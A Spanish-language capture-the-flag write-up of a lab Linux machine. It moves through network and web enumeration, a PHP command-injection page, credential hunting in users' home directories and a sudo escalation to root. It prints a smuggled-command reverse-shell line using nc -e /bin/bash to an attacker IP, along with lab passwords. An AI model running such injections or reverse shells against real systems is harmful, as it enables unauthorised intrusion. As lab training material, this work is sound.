## *Reconocimiento*

Identificamos la red con `netdiscover` para poder encontrar alguna red. Encontramos la IP 192.168.1.211, también sabemos que el sistema operativo es Linux.



Ya una vez identifico la red a la cual voy a trabajar con nmap para saber que puertos pueden estar abiertos.



Podemos ver que tenemos dos puertos abiertos, 80 HTTP, 25468 SSH, dentro del puerto 80 identificamos que manera una versión de Apache, esto puede servirnos más adelante, al mismo tiempo podemos ver los directorios que deberían estar ocultos.


La pagina que tenemos es de una biblioteca de una escuela, aunque busqué en el código abierto no encontré nada que pudieran darme pistas de a donde tengo que ir... así que lo que sigue ahora es hacer una enumeración en la web.
Para la enumeración web trabajé con `dirb` y `gobuster` por si en alguna de los dos llegara a encontrar un directorio diferente, al trabajar con las dos encontré las mismas carpetas, así que investigaré el directorio Robots.txt y ver que puedo encontrar.




Dentro del directorio Robots.txt tenemos otros directorios que no encontramos en la enumeración, así que iré revisando para ver que información relevante se puede hallar.



Decidí entrar en cada uno de los directorios pero en Login.php no me devuelve nada, ahora al utilizar el siguiente encuentro una pagina con una caja de texto y si opción de enviar, como ya vemos la pagina está hecha en php así que buscaré la manera de poder hacer una reverse … Por lo pronto dejaré anotado lo que espero hacer e iré mirando los demás directorios.



En el directorio /passwords.html encontré un texto que dice lo siguiente.



## *Análisis de Vulnerabilidades*



Para esta ocasión utilizo metasploit para hacer de oyente al ejecutar un comando para hacer la reverse shell, iré haciendo los cambios pertinentes tanto en el shell de la web como en el metasploit.




Utilizo el siguiente comando para poder hacer la ejecucion y que funcione como lo espero, veré si funciona 

```bash
echo && nc 192.168.1.208 4444 -e /bin/bash
```



Tenemos la sesión iniciada, ahora necesito trabajar con el shell interactivo, que se vea mas estético trabajar en la terminal.

## *Explotación*



Una vez estamos en la shell comenzamos a buscar fuera del servidor web que podemos hallar, dentro del directorio Home puedo ver 4 usuarios
Entro a investigar dentro del usuario Bob y logro ver un archivo oculto llamado old_passwordfile.




Tomaré las contraseñas encontradas y las guardaré en una archivo aparte, verificaré si estas contraseñas todavía siguen en función.



Vemos que dentro del mismo usuario Bob encontramos una carpeta tras otra que nos da como ultimo hallazgo un documento llamado notes.sh, a simple vista se ve como un chat normal pero las letras en mayúscula dan una palabra HARPOCRATES. 
Quise saber si había un significado para la palabra y encontré …  ` dios del silencio, los secretos y la confidencialidad en la religión helenística desarrollada en la Alejandría ptolemaica `  puede que esta palabra me sirve algún momento.



Dentro de la carpeta documentos habían otros dos archivos, uno `login.txt.gpg` y `staff.txt` así que la curiosidad me mató y quise ver que había dentro de cada uno.



Dentro del usuario Elliot podemos encontrar un texto relevante, en el resto de su domino no encontré nada que aportara.
En el texto podemos ver que nos terminan de confirmar que la contraseña de Jame es Qwerty y de paso también conocemos ahora la contraseña de elliot que es theadminisdumb.



Estamos utilizando la herramienta de cifrado/descifrado gpg integrada. Le proporcionamos la frase de contraseña que encontramos y especificamos que queremos descifrar el archivo.
Pero antes de eso debemos tener acceso a un usuario, así que entramos con el perfil seb y su contraseña, luego de esto utilizamos la herramienta de cifrado y esta nos genera la contraseña de bob.



## *Post-Explotación*

Realizamos un **sudo -l** para ver si Bob tiene acceso de root o comandos que puede usar.
Usando **sudo bash** obtenemos un shell raíz y luego navegamos al directorio **/** donde se encuentra el archivo flag.txt.



Obtenemos la flag y con esto concluye la maquina.


